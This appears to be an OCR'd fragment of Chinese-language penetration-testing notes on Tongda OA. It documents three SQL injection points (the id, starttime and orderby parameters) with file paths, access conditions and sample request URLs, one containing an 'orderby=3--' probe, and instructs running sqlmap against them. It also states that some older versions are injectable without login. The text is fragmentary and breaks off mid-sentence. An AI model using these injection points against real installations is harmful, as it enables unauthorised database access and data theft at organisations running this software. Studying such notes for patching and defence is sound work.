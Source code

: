 利用条件：一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入

webroot\general\appbuilder\modules\report\controllers\RepdetailController.php，actionEdit函数中存在 一个$_GET["id"]; 未经过滤，拼接到SQL

登录test用户，抓包URL，Sqlmap跑一下

```
http://192.168.16.112:8080/general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2
```

![image-20210409174727847](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409174727847.png)

发现跑出了两



## SQL注入2——starttime参数

与11.3的SQL注入一样，注入点在：“登录-个人事务-日程安排-日程查询”

抓包Sqlmap跑一下



## SQL注入3——orderby参数

利用条件：一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入

这里sqlmap跑不出来

参数位置：(两处)

```
http://192.168.16.112:8080/general/email/inbox/get_index_data.php?asc=0&boxid=&boxname=inbox&curnum=0&emailtype=ALLMAIL&keyword=&orderby=3--&pagelimit=10&tag=&timestamp=1598069103&total=
```

```
http://192.168.16.112:8080/general/email/sentbox/get_index_data.php?asc=0&boxid=&boxname=sentbox&curnum=3&emailtype=ALLMAIL&keyword=sample%40email.tst&orderby=1&pagelimit=20&tag=&timestamp=1598069133&total=
```

